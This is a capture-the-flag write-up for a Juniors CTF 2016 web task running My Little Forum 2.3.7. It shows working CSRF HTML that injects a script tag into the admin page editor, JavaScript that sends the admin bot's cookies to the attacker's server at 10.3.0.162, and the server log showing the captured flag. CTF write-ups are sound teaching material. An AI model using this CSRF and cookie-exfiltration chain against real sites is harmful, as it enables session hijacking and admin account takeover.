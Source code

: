 # Forum for all
##### Juniors CTF 2016 (http://ctf.org.ru)
```
http://10.0.38.133:61937
```

This web task was running My Little Forum 2.3.7, which has several known vulnerabilities: https://www.exploit-db.com/exploits/40676/.

Luckily, there is an admin bot that is periodically clicking posted links, so we can get the bot to a page controlled by us.

I used Python's `SimpleHTTPServer` to handle HTTP and a JavaScript injection to steal the cookies.

## csrf.html
```html
<html>
<head></head>
<body>
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="asdf">
<input type="hidden" name="content" value="asdf">
<input type="hidden" name="menu_linkname" value="XSS<script src='http://10.3.0.162:8002/csrf.js'></script>">
<input id='trigger' type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<script>document.getElementById('trigger').click();</script>
</body>
</html>
```

## csrf.js
```js
var img = document.createElement('img');
img.src = 'http://10.3.0.162:8002/'+document.cookie;
document.body.appendChild(img);
```

After setting up the files, I ran `python -m SimpleHTTPServer 8002` and posted `[link]http://10.3.0.162:8002/csrf.html[/link]` on the forum.

Soon the requests come in:
```
10.0.4.3 - - [27/Nov/2016 14:32:03] "GET /csrf.html HTTP/1.1" 200 -
10.0.4.3 - - [27/Nov/2016 14:35:04] "GET /csrf.js HTTP/1.1" 200 -
10.0.4.3 - - [27/Nov/2016 14:35:04] "GET /flag=adminn_superforum31221 HTTP/1.1" 404 -
```
